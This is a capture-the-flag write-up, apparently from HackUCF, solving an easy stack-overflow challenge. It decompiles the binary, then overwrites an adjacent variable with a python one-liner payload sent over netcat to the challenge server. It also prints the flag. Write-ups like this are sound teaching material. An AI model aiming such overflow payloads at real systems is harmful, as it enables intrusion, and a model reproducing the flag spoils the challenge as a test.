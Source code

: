 # deadbabe

## Overview:

Category: Binary Exploitation

Difficulty: Easy

## What We Have:



```deadbabe```

What is this deadbabe file?
```c
$ file deadbabe
deadbabe: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d3739ef7941fb4c59c0700bcb561d0dea77b3081, for GNU/Linux 3.2.0, stripped
```

As we can see here it is a 64bit executable. We can also notice that it is dynamically linked and is stripped.

Let's see what security features are enabled on this executable.
```c
$ checksec deadbabe 
[*] '/home/anthony/hackucf/deadbabe/deadbabe'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Looks like there is no stack canary, so overwriting memory on the stack should be possible. Pie is enabled which will affect the addressing in the executable, nx is enabled which disallows us to execute shellcode, and we have full relro which disallows us from dynamically messing with the executable.

## Approach

We are given a remote connection: `nc 45.55.130.243 37234`

Let's connect and see what we are greeted with.

```c
$ nc 45.55.130.243 37234
Input: 
A
baadf00d does not equal deadbabe 
```
Interesting, we were prompted for input, gave an `A` and recieved `baadf00d does not equal deadbabe`

What if we give it abunch of `A`'s

```c
$ nc 45.55.130.243 37234
Input: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
41414141 does not equal deadbabe 
```

Okay so now we have a different output. So we can assume now that the input is overflowing into wherever `baadf00d` was being stored as 41 represents the ascii code of `A`.

Let's disassemble the executable and see what we can find.

Opening the file in ghidra we are able to find a function that seems to be the main one along with one that seems to give the flag:
```c
undefined8 FUN_00101207(void)

{
  char local_14 [8];
  uint local_c;
  
  local_c = 0xbaadf00d;
  puts("Input: ");
  fgets(local_14,0x10,_stdin);
  if (local_c == 0xdeadbabe) {
    FUN_001011e9();
  }
  printf("%x does not equal %x",(ulong)local_c,0xdeadbabe);
  return 0;
}

void FUN_001011e9(void)

{
  system("cat flag.txt");
  exit(-1);
}
```

With some renaming of variables we get something a little more comprehensive:
```c
undefined8 main(void)

{
  char buffer [8];
  uint target;
  
  target = 0xbaadf00d;
  puts("Input: ");
  fgets(buffer,16,_stdin);
  if (target == 0xdeadbabe) {
    win();
  }
  printf("%x does not equal %x",(ulong)target,0xdeadbabe);
  return 0;
}

void win(void)

{
  system("cat flag.txt");
  exit(-1);
}
```
We see that the program is checking to see if the target variable is set to `0xdeadbabe`, but we can see in the program that the value of target is actually `0xbaadf00d`.

In order for us to get the flag we need to call the win() function, and to do that we need to pass the previously discussed condition.


## Attack

So recalling some properties of the stack, when a variable is instantiated it is pushed on top of the stack. Therefor on the stack of the program we have `buffer` and `target`.

More specifically we have `buffer` on top of `target`. Where buffer is 8 bytes and target is 4. (`0xbaadfood` represents 4 hex bytes)

So in order to rewrite the target address, we need to send 8 bytes to fill in the buffer, than the following 4 bytes, which will overflow into the value of target needs to be the wanted bytes: `0xdeadbabe`.

Trying it:
```c
$ python2 -c 'print "A" * 8 + "\xde\xad\xba\xbe"' > payload
$ nc 45.55.130.243 37234 < payload
Input: 
bebaadde does not equal deadbabe 
```
`Note: "\xde\xad\xba\xbe" is just deadbabe being written with hex recognition`

Now you may notice that the bytes we overwrote, were not what we wanted. The reasoning is because memory is stored in little-endian.

What little-endian does is it reverses the order at byte level, meaning the order of the bytes is changed and not the individual bits. (bytes are 8 bits)

So lets reverse our bytes and try again.

```c
$ python2 -c 'print "A" * 8 + "\xbe\xba\xad\xde"' > payload
$ nc 45.55.130.243 37234 < payload                         
Input: 
hackucf{d3pen6s_h0w_b4d_7h3_f00d_w4s}
```

Boom we got our flag!

Now you know how to overwrite variables on the stack.

## Flag

hackucf{d3pen6s_h0w_b4d_7h3_f00d_w4s}
